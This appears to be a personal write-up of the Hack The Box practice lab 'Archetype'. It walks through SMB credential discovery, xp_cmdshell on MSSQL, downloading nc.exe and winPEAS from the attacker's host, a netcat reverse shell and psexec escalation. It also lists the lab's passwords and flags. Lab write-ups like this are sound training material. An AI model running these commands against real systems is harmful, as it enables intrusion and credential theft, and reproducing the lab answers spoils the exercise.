 ```yaml
---
layout: post
title: "[HTB - Starting Point] Archetype"
date: 2022-10-18 09:00:00 +0800
categories: note
tags: [HTB]
---
```


## Task 1  
Q : Which TCP port is hosting a database server?  
``` text
[host] # nmap -sVC -p- --open -oA Archetype_full_scan <target_ip>
```
A : 1433  

## Task 2  
Q : What is the name of the non-Administrative share available over SMB?  
``` text
[host] # smbclient -N -L <target_ip>
```
A : backups  

## Task 3  
Q : What is the password identified in the file on the SMB share?  
``` text
[host] # smbclient -N \\\\<target_ip>\\backups
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
[host] # cat prod.dtsConfig
```
A : M3g4c0rp123  

## Task 4  
Q : What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?  
A : mssqlclient.py  

## Task 5  
Q : What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?  
``` text
[host] # impacket-mssqlclient -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@<target_ip>
SQL> ?
```
A : xp_cmdshell  

## Task 6  
Q : What script can be used in order to search possible paths to escalate privileges on Windows hosts?  
A : winpeas  

## Task 7  
Q : What file contains the administrator's password?  
``` text
# Get nc.exe and winPEASx64.exe on your host.
# Download nc.exe and winPEASx64.exe from our host to target machine.
[host] # python3 -m http.server
SQL> enable_xp_cmdshell
SQL> xp_cmdshell "powershell cd C:\Users\sql_svc\Desktop; wget http://<your_ip>:8000/nc.exe -outfile nc.exe"
SQL> xp_cmdshell "powershell cd C:\Users\sql_svc\Desktop; wget http://<your_ip>:8000/winPEASx64.exe -outfile winPEASx64.exe"

# Establish reverse shell
[host] # nc -nvlp 12345
SQL> xp_cmdshell "powershell C:\Users\sql_svc\Desktop\nc.exe -e cmd.exe <your_ip> 12345"

# from reverse shell, exec winPEASx64.exe
(reverse shell)> C:\Users\sql_svc\Desktop\winPEASx64.exe
```
A : ConsoleHost_history.txt  
(got administrator/MEGACORP_4dm1n!!)

## SUBMIT FLAG  
Q : Submit user flag  
``` text
SQL> xp_cmdshell "powershell type C:\Users\sql_svc\Desktop\user.txt"
```
A : 3e7b102e78218e935bf3f4951fec21a3  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
[host] # impacket-psexec ARCHETYPE/administrator@<target_ip>
password: MEGACORP_4dm1n!!
C:\Windows\system32> cd C:\Users\Administrator
C:\Users\Administrator> dir /s *txt*
C:\Users\Administrator> type C:\Users\Administrator\Desktop\root.txt
```
A : b91ccec3305e98240082d4474b848528  

